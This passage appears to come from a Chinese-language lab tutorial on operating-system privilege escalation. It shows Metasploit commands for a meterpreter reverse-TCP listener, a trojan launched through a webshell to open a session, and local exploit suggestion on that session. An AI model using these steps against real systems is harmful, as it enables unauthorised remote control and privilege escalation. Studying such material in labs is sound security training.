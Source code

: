 ```
msf进行监听
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost 192.168.15.141
set lport 7777
exploit 
```

![image-20241014191905319](操作系统提权/image-20241014191905319.png)	

webshell运行木马文件

![image-20241014191930866](操作系统提权/image-20241014191930866.png)	

msf监听成功，会话ID是1

![image-20241014192005817](操作系统提权/image-20241014192005817.png)	

```
搜索提权的漏洞
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![image-20241014192058417](操作系统提权/image-20241014192058417.png)	
